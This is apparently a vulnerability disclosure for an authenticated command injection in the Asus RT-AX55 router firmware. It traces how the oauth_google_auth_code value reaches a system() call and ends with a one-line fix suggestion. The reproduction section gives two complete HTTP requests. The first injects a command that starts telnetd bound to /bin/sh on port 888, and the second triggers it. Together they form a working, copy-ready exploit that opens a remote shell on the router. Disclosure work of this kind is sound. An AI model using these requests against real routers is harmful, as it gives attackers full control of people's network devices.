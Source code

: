 # 0x01  Vulnerability Description #

The Asus `rt-AX55` router has a vulnerability in command injection after authentication.

# 0x02  Firmware Analysis #

Firmware download: ：https://dlcdnets.asus.com/pub/ASUS/wireless/RT-AX55/FW_RT_AX55_300438651598.zip?model=RT-AX55
You can extract it directly using binwalk with the option -Me.

# 0x03  Code Analysis #

Analyze the binary file "`sbin/rc`". In the function `FUN_0004d76c`, retrieve the value of "`oauth_google_gen_token_email`" from the HTTP request parameter `action_script`, leading to the execution of the function `FUN_000bc540`.

![](./img/1.png)

In function `FUN_000bc540`.

![](./img/2.png)

Enter the function `FUN_000b9190`, retrieve the value of "`oauth_google_auth_code`" from NVRAM, and finally concatenate the value of "`oauth_google_auth_code`" to the system function.

![](./img/3.png)



# 0x04  Vulnerability Reproduction #

Seting `oauth_google_auth_code`.

requst1:

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 563
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=197%40qq.com&PM_SMTP_AUTH_USER=197&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1&oauth_google_auth_code='`telnetd%20-l%20/bin/sh%20-p%20888`'

![](./img//4.png)

Trigger command injection.

requst2：

    POST /start_apply.htm HTTP/1.1
    Host: 192.168.50.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 533
    Origin: http://192.168.50.1
    Connection: close
    Referer: http://192.168.50.1/AiProtection_HomeProtection.asp
    Cookie: clickedItem_tab=0; asus_token=SlW0T8OWvKJQunduBTMwVRSNLoR7YW6; clock_type=1; bw_rtab=INTERNET; ASUS_TrafficMonitor_unit=1
    Upgrade-Insecure-Requests: 1
    
    productid=RT-AX55&current_page=AiProtection_HomeProtection.asp&next_page=&modified=0&action_wait=4&action_mode=apply&action_script=restart_wrs%3Brestart_firewall%3Bemail_conf%3Bsend_confirm_mail%3Boauth_google_gen_token_email&firmver=3.0.0.4&wrs_mals_enable=1&wrs_cc_enable=1&wrs_vp_enable=1&TM_EULA=1&PM_SMTP_SERVER=smtp.qq.com&PM_SMTP_PORT=587&PM_MY_EMAIL=177%40qq.com&PM_SMTP_AUTH_USER=19&PM_SMTP_AUTH_PASS=Qwer123400&wrs_mail_bit=7&wrs_mals_t=1685353258&wrs_vp_t=1685353258&wrs_cc_t=1685353258&wrs_protect_enable=1

![](./img//5.png)

![](./img//6.png)

# 0x05  Vulnerability Fix #

Filter out single quotes from "`oauth_google_auth_code`".
